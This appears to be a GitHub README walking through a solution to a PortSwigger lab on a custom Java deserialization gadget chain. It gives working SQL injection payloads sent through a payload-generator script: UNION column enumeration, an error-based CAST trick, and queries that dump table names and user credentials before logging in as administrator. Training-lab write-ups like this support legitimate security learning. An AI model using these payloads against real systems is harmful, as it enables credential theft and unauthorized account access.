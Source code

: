 # [Developing a custom gadget chain for Java deserialization](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-developing-a-custom-gadget-chain-for-java-deserialization)

### How to solve

1. Build the payload generator jar with `./build.sh`.
2. Export your lab ID as an environment variable with `export LABID=xxxx`
3. Execute SQL payloads and see the response with `./exec.sh "sql here"`\
   Your input will inject into a SQL query like so:\
   `SELECT * FROM products WHERE id = 'x' <sql here> -- LIMIT 1`.
4. Enumerate the number of columns.\
`./exec.sh "UNION SELECT NULL"`\
`./exec.sh "UNION SELECT NULL,NULL"`\
`./exec.sh "UNION SELECT NULL,NULL,..."`
5. Find a column that reflects your input due to a data type mismatch.\
`./exec.sh "UNION SELECT 'xx',NULL,NULL,NULL,..."`\
`./exec.sh "UNION SELECT NULL,'xx',NULL,NULL,..."`\
`./exec.sh "UNION SELECT NULL,NULL,'xx',NULL,..."`\
`./exec.sh "UNION SELECT NULL,NULL,NULL,'xx',..."`
6. Dump table names by inserting the following SQL into the column that reflects your input.\
`CAST((SELECT STRING_AGG(table_name, ' ') FROM information_schema.tables WHERE table_schema='public') AS numeric)`
7. Dump account names and passwords from the users table with:\
`CAST((SELECT STRING_AGG(CONCAT(username, ':', password), ' ') FROM users) AS numeric)`
8. Log into the administrator account and complete the lab.